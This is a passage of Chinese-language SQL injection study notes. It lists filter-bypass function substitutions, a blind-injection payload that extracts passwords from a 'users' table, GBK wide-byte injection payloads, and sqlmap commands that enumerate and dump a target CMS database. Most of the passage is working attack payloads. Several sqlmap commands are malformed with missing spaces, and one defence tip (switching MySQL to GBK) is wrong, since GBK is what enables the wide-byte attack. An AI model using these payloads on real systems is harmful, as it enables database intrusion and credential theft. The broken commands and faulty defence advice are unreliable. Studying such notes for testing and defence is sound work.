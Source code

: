 sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
`substr((select 'password'),1,1) = 0x70`
`strcmp(left('password',1), 0x69) = 1`
`strcmp(left('password',1), 0x70) = 0`
`strcmp(left('password',1), 0x71) = -1`

#### 12.宽字节注入：
　　过滤 `'` 的时候往往利用的思路是将 `'` 转换为 `\'` 。

　　在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：
- （1）`%df` 吃掉 `\` 具体的方法是 `urlencode('\) = %5c%27`，我们在 `%5c%27` 前面添加 `%df` ，形成 `%df%5c%27` ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，`%df%5c` 就是一个汉字，`%27` 作为一个单独的（'）符号在外面：
`id=-1%df%27union select 1,user(),3--+`
- （2）将 `\'` 中的 `\` 过滤掉，例如可以构造 `%**%5c%5c%27` ，后面的 `%5c` 会被前面的 `%5c` 注释掉。

一般产生宽字节注入的PHP函数：
- 1.replace()：过滤 `'` `\` ，将 `'` 转化为 `\'` ，将 `\`  转为 `\\`，将 " 转为 `\"` 。用思路一。

- 2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：`'` , `"` , `\` 。用思路一
（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

- 3.mysql_real_escape_string()：转义下列字符：
`\x00`     `\n`     `\r`     `\`     `'`     `"`     `\x1a`
（防御，将mysql设置为gbk即可）



## SQLMAP
gedit linux图形化文本编辑器


`sqlmap -r target.txt -p username --dbs`
- -p指定参数

数据库查询
`sqlmap-u"192.168.1.104:8081/cms/articles.php?id=1"--dbs`

表查询
`sqlmap-u"192.168.1.104:8081/cms/articles.php?id=1"-D cms--tables`

字段查询
`sqlmap-u"192.168.1.104:8081/cms/articles.php?id=1"-D cms -T articles--columns`

值查询
`sqlmap-u"192.168.1.104:8081/cms/articles. php? id=1"-D cms -T articles -C id, title, content--dump`
